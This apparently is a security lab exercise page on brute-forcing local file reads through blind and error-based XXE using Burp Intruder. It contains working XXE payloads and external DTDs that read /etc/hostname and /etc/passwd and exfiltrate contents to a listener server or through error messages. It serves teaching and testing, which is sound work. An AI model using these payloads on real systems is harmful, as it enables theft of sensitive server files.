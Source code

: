 ```yaml
---
title: "Brute Force Local Files"
weight: 30
---
```


In this exercise we want to brute-force local files through a tool like Brup Suite Intruder. The assumption is that a Basic XXE attack will not work and so we will need to rely on a Blind XXE or Error Based attack.

In order to do this we need to have the file specified in the internal dtd (so that it can be manipulated by Intruder). We will also need to define an external dtd that has a General Entity to accept the file content and include it in the XML document.


## Blind

First the dtd found in `/home/vagrant/dtds/brute.dtd`

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

And what we submit:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/brute.dtd">
  %ext;
]>

<name></name>
```

![](/static/img/brute_results.png)

## Error Based

The contents of the dtd in `/home/vagrant/dtds/brute_error.dtd`

```xml
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/brute_error.dtd">
  %ext;
]>

<name></name>
```

![](/static/img/brute_error_results.png)
